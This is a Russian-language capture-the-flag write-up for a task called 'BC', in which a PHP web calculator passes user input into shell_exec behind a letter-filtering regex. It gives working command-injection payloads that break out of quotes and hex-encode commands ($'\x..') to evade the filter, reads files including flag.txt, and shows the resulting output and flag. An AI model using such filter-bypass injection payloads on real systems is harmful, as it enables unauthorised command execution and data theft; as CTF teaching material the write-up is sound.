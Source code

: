 BC (CTB 100)
=======
У нас есть онлайн калькулятор командной строки для Linux(https://hy17-bc.spb.ctf.su/)

Так же имеем исходный код страницы(https://hy17-bc.spb.ctf.su/?source), где мы передаем POST параметр `$expr`в
```php
shell_exec("bc 2>&1 <<<'$expr'")
```
Но есть проблема, перед тем как выполнить код выше, наш запрос проходит через регулярное выражение
```php
if (preg_match('#[g-wy-z]#si', $expr))
```
Которое гласит, что нам можно использовать только `[abcdefx]` и любые символы пунктуцации

Я очень долго искал решение к этому заданию, и пришел к такому выводу
```
';ex +%$'\x70' -$'\x73\x63\x71'! -c *;'
```
В нормальном виде выглядит так
```
';ex +%p -scq! -c *;'
```
`ex` - это текстовый редактор linux в котором можно выполнять команды bash как в vim

Я говорю ему прочитать все, что есть в первом попавшемся файле в директории и перенаправляю вывод в командную строку

Сделать так, что бы читались сразу все файлы в один вывод, пока не получилось

Перед там как написать свой Write-up, я глянул чужие работы и понял, что я сильно заморачивался и можно было так
```
';xxd f*;'
```
Обидно то, что вокруг этой команды я плясал оочень долго:D

Дополнение:

Исходя из выше написанного я пришел к выводу, что можно было сделать так...

Получаем список файлов `';ls;'`
```
';$'\x6C\x73';'
```
```
Output:
bc.html
flag.txt
index.php
```
Исходя из того, что `';cat flag.txt;'` не работает

Делаем так
```
';ex $'\x66\x6C\x61\x67\x2E\x74\x78\x74' +%$'\x70' -$'\x73\x63\x71'!;'
```

И собственно флаг
> hy17{9edd3d10987207dc1f97a9bfc6af269f}

